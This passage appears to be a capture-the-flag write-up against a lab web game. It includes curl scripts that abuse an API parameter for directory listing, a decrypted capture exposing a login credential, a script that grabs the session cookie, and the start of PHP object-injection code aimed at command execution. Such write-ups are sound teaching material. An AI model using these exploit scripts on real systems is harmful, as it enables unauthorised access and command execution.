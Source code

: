 ## Find the name of the debug PCAP on the web server.

Looking in api.php, we can do directory listings too with `list=` as the payload. Create `dir.sh`:

```
#!/bin/sh
curl --silent --http3 'https://elf-invaders.elfu.org/api.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://elf-invaders.elfu.org' -H 'Alt-Used: elf-invaders.elfu.org' -H 'Connection: keep-alive' -H 'Referer: https://elf-invaders.elfu.org/leaderboard.php' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'TE: Trailers' --data-raw "list=${1}"
echo ''
```

We can use this to list files and find there's a file `adminlogin_debug.pcap`.

## Find Alabaster's password. (e.g. DirectReindeerFlatteryStable)

Grabbing the `adminlogin_debug.client_random` and using it in wireshark to decrypt the QUIC in the pcap we find some payloads:

```
@Ç(ÍðôÒ¹~îåÚ6¡GREASE is the word,ÔQ`rRj®zÿ×P¢\.®Ã_P%¶PÃ«¸úàZþ?ÝTqÿï@Eusername=alabaster_snowball&password=4084072e86e12aabef9ace3e39145ba3
```

Entering `4084072e86e12aabef9ace3e39145ba3` as the flag works.

## Update the cabinet's firmware and retrieve the new version number.

People left files sitting around so I found this without doing what's intended, just the LFI and directory listing, but I did most of the object injection anyways.

2.11516925085506347

get_auth_cookie.sh

```
#!/bin/sh
curl -v --http3 'https://elf-invaders.elfu.org/admin.php' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://elf-invaders.elfu.org' -H 'Alt-Used: elf-invaders.elfu.org' -H 'Connection: keep-alive' -H 'Referer: https://elf-invaders.elfu.org/leaderboard.php' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'TE: Trailers' --data-raw "username=alabaster_snowball&password=4084072e86e12aabef9ace3e39145ba3" 2>&1 | grep "set-cookie" | sed -E "s/.*elfinv=([a-zA-Z0-9._-]+);.*/\1/"
```

php for generating the object injection

```
<?php
  class OldAdminMethod
  {
    // Will remove this later after testing more secure new admin class
    public $command;
    public $logname;

    function __construct($cmd="", $log='/var/www/db/cmdhist.log')
    {
      $this->command = $cmd;
      $this->logname = $log;
    }

    public function readlog() {
```